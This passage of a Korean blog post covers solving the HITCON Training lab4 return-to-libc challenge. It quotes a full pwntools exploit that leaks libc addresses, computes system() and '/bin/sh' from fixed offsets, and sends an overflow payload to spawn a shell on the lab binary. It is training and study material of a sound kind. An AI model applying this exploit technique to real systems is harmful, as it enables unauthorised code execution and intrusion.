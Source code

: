 
## **LAB4**

이제 가장 기본적인 기능은 어느정도 완성되었고, lab3에서도 동작하는 것을 확인했으니 이번에는 lab4를 공략해보자.
<br>
아래는 [https://bachs.tistory.com/entry/HITCON-Training-lab4-return-to-library](https://bachs.tistory.com/entry/HITCON-Training-lab4-return-to-library) 에서 발췌한 lab4를 공략하는 exploit이다.



라이브러리로 작성된 완전한 코드는 아래에서 확인 가능하다.<br>
[https://github.com/lucid78/pwntoolscpp](https://github.com/lucid78/pwntoolscpp){: target="_blank"}
{: .notice--info}


```cpp
from pwn import *
 
p = process('./ret2lib')
e = ELF('./ret2lib')
 
#found address of puts got
log.info("found address of puts got : %s" % hex(e.got["puts"]))
puts_got = e.got["puts"]
 
p.recvuntil(":")
p.send(str(puts_got))
 
puts_addr = p.recvline()
puts_addr = int(puts_addr.split(":")[1].strip(), 16) 
 
sys_offset   = 0x24d40
binsh_offset = 0xfd548
 
system_addr = puts_addr - sys_offset
binsh_addr  = puts_addr + binsh_offset
 
log.info("address of puts : %s" % hex(puts_addr))
log.info("address of system : %s" % hex(system_addr))
log.info("address of /bin/sh string : %s" % hex(binsh_addr))
 
payload  = ""
payload += "a"*60 #dummy 60bytes
payload += p32(system_addr)
payload += "aaaa"
payload += p32(binsh_addr)
 
p.recvuntil(":")
p.send(payload)
p.interactive()

출처: https://bachs.tistory.com/entry/HITCON-Training-lab4-return-to-library [Bach`s Blog]
```
